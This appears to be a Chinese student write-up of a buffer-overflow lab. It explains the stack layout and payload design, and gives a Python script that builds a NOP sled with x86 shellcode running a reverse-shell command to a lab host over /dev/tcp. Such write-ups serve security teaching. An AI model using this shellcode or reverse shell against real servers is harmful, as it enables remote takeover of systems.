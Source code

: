 <img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242440.png" alt="image-20220310101313122"  />

然后将shellcode中的命令替换成：其中10.9.0.1是本机ip地址。

```python
"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
```

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242671.png" alt="image-20220309215008024" style="zoom:80%;" />

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242279.png" alt="image-20220309215144889" style="zoom:80%;" />

测试截图：

![image-20220309215357422](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242023.png)



## Task 3: Level-2 Attack

同样先随便发信息进行测试：

```terminal
$ echo hello | nc 10.9.0.6 9090
Ctrl+C
```

发现buffer位置是`0xffffd178：`

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242623.png" alt="image-20220309225047026" style="zoom:80%;" />

虽然这里没有告诉ebp的地址，但是给出了提示buffer的长度在100到300之间。

![image-20220407144231504](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242976.png)

可以画出栈的分布，payload的思想是：前100字节无所谓+ret addr*n+NOPNOPNOP……+shellcode：

![](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242000.jpg)

```python
#!/usr/bin/python3
import sys

shellcode = (
    # Put the shellcode in here
    "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
    "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
    "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
    # "/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"
    "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBB"   # Placeholder for argv[1] --> "-c"
    "CCCC"   # Placeholder for argv[2] --> the command string
    "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517-len(shellcode)               # Change this number
content[start:start + len(shellcode)] = shellcode

```